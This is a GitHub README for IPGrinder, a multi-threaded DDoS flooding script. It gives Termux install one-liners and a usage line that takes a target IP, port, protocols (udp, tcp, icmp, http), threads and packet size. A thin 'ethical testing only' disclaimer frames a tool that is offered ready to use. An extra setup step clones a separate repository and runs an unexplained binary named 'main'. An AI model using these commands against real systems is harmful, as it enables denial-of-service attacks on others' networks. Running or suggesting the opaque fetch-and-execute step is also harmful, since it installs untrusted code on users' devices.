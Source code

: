 # IPGrinder

**IPGrinder** is a Multi-threaded DDoS script intended for **stress testing infrastructure**.

> ⚠️ This tool is meant for **educational and ethical testing purposes only**. Do **not** use it on networks or systems without explicit authorization.

---

## 🔧 Setup for Fakeroot (Termux) - EXPERIMENTAL ONLY, MIGHT NOT WORK

### Manual Steps

```bash
apt-get update && apt-get upgrade -y
apt-get install git -y
git clone https://github.com/adarshaddee/root.git
cd root
chmod +x main
./main
```

### One-liner

```bash
pkg --check-mirror update && apt-get update && apt-get upgrade -y && apt-get install git -y && git clone https://github.com/adarshaddee/root.git && cd root && chmod +x main && ./main
```

---

## ⚙️ Setup for IPGrinder

### Manual Steps

```bash
pkg update && pkg upgrade -y
pkg install git python -y
git clone https://github.com/NeoMatrix14241/IPGrinder.git
cd IPGrinder
python -m pip install --upgrade pip
python -m pip install requests
python ipgrinder.py
```

### One-liner

```bash
pkg --check-mirror update && pkg update && pkg upgrade -y && pkg install git python -y && git clone https://github.com/NeoMatrix14241/IPGrinder.git && cd IPGrinder && python -m pip install requests && python ipgrinder.py
```

---

## 🚀 Usage

```bash
python ipgrinder.py <IP> <PORT> [PROTOCOLS] [THREADS_PER_PROTO] [PACKET_SIZE]
```

### Parameters

- `<IP>` – Target IP address
- `<PORT>` – Target port
- `[PROTOCOLS]` – Comma-separated list of protocols (udp, tcp, icmp, http, all)
- `[THREADS_PER_PROTO]` – Number of threads per selected protocol
- `[PACKET_SIZE]` – Size of each packet in bytes

### Example

```bash
python ipgrinder.py 192.168.1.1 80 tcp,udp 100 1024
```

---

**Disclaimer:** The creator is **not responsible** for any misuse or damage caused by this tool.
